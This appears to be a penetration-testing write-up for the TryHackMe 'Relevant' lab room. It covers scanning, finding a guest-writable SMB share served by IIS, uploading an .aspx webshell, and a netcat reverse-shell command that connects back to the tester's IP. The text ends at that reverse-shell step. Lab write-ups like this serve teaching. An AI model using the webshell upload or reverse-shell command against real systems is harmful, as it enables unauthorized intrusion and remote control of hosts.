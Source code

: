# Writeup for TryHackMe's Relevant Room
<p align="center">
<img src="https://assets.tryhackme.com/img/banners/default_tryhackme.png">
</p>

A simple free penetration testing challenge created by [TheMayor](https://tryhackme.com/p/TheMayor) for **TryHackMe**

Link to the room [here](https://tryhackme.com/room/relevant)

## Description

The room creates a situation where you are assigned to a client to perform a black box penetration test on a provided virtual environment.  As a proof of exploitation, the pentesting must provide two flags found on the system:
- user.txt
- root.txt


## Scope Allowances

* There are no restrictions for tools and techniques that can be used by the pentester, **however** manual exploitation is to be tried first
* Locate and identify all vulnerabilities found
* Retrieve all flags discovered
* The scope of the test is limited to the provided IP address

## Recon

Reconnaissance for this room began with a simple TCP nmap scan of the default ports with a number of open ports being discovered:
- port 80 	
- port 135 	
- port 139 	
- port 445 	
- port 3389 

<p align="center"><img src="https://i.imgur.com/eTbuy5t.png"></p>

Port 80 is hosting a web server, and seeing ports 139/445 I assume it's hosting Samba. 
OS Scans found a 90% match with **Microsoft Windows Server 2012 R2**.
I followed the initial scan with a SYN scan on all ports on the machine, finding three additional unusual ports:
- port 49663 
- port 49667 
- port 49669

In the scan, it shows the port 49663 is hosting another web server.
<p align="center"><img src="https://i.imgur.com/9TcUwrG.png"></p>


I first wanted to check out both web servers, finding them to appear similar and equally unhelpful aside from letting me know that the host is using Windows Internet Information Services (IIS)

<p align="center"><img src="https://i.imgur.com/kRMiD8y.png"></p>

I ran dirsearch on both sites to hopefully discovery some directories using seclist's directory-list-2.3-medium.txt wordlist and found nothing for the web server hosted on port 80, but found a directory called **nt4wrksv** on the web server hosted on port 49663.

<p align = "center"><img src="https://i.imgur.com/ox575FR.png"></p>

Running dirsearch again on the **nt4wrksv** directory quickly revealed a file call passwords.txt containing encoded credentials:

<p align="center"><img src="https://i.imgur.com/gxItfhF.png"></p>

The credentials were encoded in base64, here is what they are when decoded:



I next wanted to check out the Samba service, using smbmap to enumerate the shares I found the following:

<p align="center"><img src="https://i.imgur.com/fQQ9NC1.png"></p>

Using a guest session, we have read and write permission on a share called nt4wrksv.  When checking inside the share using smbclient, I found a file called passwords.txt that contained the same encoded credentials I found on the web server.

<p align="center"><img src="https://i.imgur.com/rY1phEV.png"></p>

## Initial Access

Seeing the share with the same name and same contents as the directory online, I tested whether or not I could access the files I upload to the share from the web server by uloading a test.txt file. 

<p align="center"><img src="https://i.imgur.com/MFDdDQJ.png"></p>
<p align="center"><img src="https://i.imgur.com/urqPdcq.png"></p>

Success, the share provides upload permissions!

After a little research, I found the Windows IIS runs code on .aspx files.  I used the share to upload an .aspx webshell from Kali's /usr/share/webshells/aspx/cmdasp.aspx

<p align="center"><img src="https://i.imgur.com/eHfYjoX.png"></p>

And upon visiting the newly uploaded webshell, I now have a functioning webshell on the system.

<p align="center"><img src="https://i.imgur.com/WELB5xC.png"></p>

Furthermore, communication back and forth from my machine and the host is possible.

<p align="center"><img src="https://i.imgur.com/sYtKddq.png"></p>


To turn my web shell into a reverse shell, I using the Samba share to upload netcat for windows (nc.exe) and execute **cmd.exe** using the command `c:\inetpub\wwwroot\nt4wrksv\nc.exe 10.6.0.130 4444 -e cmd.exe`

